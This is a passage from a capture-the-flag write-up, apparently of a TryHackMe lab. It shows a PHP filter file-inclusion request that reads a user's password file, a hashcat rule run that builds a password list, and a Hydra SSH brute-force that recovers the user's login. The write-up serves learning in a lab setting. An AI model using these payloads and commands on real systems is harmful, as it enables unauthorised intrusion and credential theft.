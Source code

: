 Overall, user `blue` generated a list of password from an input file called `.reminder`. Therefore, we have to get the content of that file to generate the same password list of `blue`

```tsx
┌──(kali㉿kali)-[~/SublimeText]
└─$ python3 fli.py
File input: /home/blue/.reminder
Sending request: http://10.10.174.11/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder
File content: 

sup3r_p@s$w0rd!
```

# Gain Access

On the local machine, create a file name `.reminder` with the same content as the one on the target machine we have found in the previous. Then, use **************hashcat************** and execute the same command as `blue` to generate the password list:

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ echo "sup3r_p@s\$w0rd\!" > red/.reminder

┌──(kali㉿kali)-[~/TryHackMe/red]
└─$ cat .reminder 
sup3r_p@s$w0rd!
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/red]
└─$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
                                                                                                                    
┌──(kali㉿kali)-[~/TryHackMe/red]
└─$ ls -la
total 16
drwxr-xr-x  2 kali kali 4096 Jul 21 22:52 .
drwxr-xr-x 36 kali kali 4096 Jul 21 22:51 ..
-rw-r--r--  1 kali kali 1114 Jul 21 22:53 passlist.txt
-rw-r--r--  1 kali kali   16 Jul 21 22:52 .reminder
```

After the password list is generated. Use **********hydra********** to crack the password to login through ******SSH****** with the password list.

```tsx
┌──(kali㉿kali)-[~/TryHackMe/red]
└─$ hydra -l "blue" -P passlist.txt ssh://10.10.174.11                               
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-21 22:54:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.174.11:22/
[22][ssh] host: 10.10.174.11   login: blue   password: !dr0w$s@p_r3pus
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-21 22:54:44
```
